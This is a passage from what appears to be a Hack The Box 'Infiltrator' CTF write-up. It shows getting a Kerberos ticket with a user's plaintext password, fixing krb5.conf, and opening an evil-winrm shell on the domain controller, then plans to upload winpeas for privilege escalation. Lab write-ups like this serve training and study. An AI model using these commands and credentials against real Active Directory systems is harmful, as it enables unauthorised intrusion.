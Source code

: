 We have to try another way to get access to shell, I guess TGT ticket would be still useful here.
```
getTGT.py infiltrator.htb/m.harris:'@wither123456' -dc-ip 10.10.11.31
export KRB5CCNAME=m.harris.ccache

evil-winrm -i dc01.infiltrator.htb -u "m.harris" -r INFILTRATOR.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information                                                                                                                                                                          
Cannot find KDC for realm "INFILTRATOR.HTB"                                                                                                                       
Error: Exiting with code 1

We need to change the file `/etc/krb5.conf`

[libdefaults]
    default_realm = INFILTRATOR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    clockskew = 300

[realms]
    INFILTRATOR.HTB = {
        kdc = dc01.infiltrator.htb
        admin_server = dc01.infiltrator.htb
    }

[domain_realm]
    .infiltrator.htb = infiltrator.HTB
    infiltrator.htb = infiltrator.HTB

Then we can successfully get access to the shell
```

3, shell as Administrator
After simple enumerating, I did not find anything interesting in this file system.So I would upload the `winpeas` to collect the information.
I found a `my.ini` from Output  Messenger Server Plugin